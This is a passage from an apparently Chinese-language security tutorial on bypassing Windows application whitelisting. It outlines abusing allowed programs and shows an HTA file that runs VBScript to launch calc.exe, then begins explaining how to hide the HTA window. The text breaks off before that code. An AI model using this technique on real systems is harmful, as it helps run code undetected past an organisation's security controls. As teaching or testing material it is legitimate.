 无法执行自己的程序

### 2.分析

根据白名单系统的特点，绕过的思路如下：

  1. 找到系统中的特定白名单程序

利用该程序执行代码

编写代码使其执行我们自己的程序

  2. 找到系统中未被拦截的特定程序

利用该程序执行代码

编写代码使其执行我们自己的程序

# 0x04 绕过方法

* * *

最终我们还是做到了：D

### 1.执行vbs

利用hta文件

> Tips：

>

> hta是HTML Applications的缩写，是利用HTML和Dynamic HTML(DHTML)开发应用程序

利用如下代码即可通过hta执行vbs

    
    
    #!html
    <HTML> 
    <HEAD> 
    <script language="VBScript">
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    </script>
    </HEAD> 
    <BODY> 
    </BODY> 
    </HTML> 
    

如图

![p12](http://static.wooyun.org//drops/20151127/2015112704462151490p122.png)

然而并不完美，hta的界面会默认显示，所以我们需要进一步修改来隐藏hta的主界面

加入属性指定hta执行后最小化显示，完整的代码如下
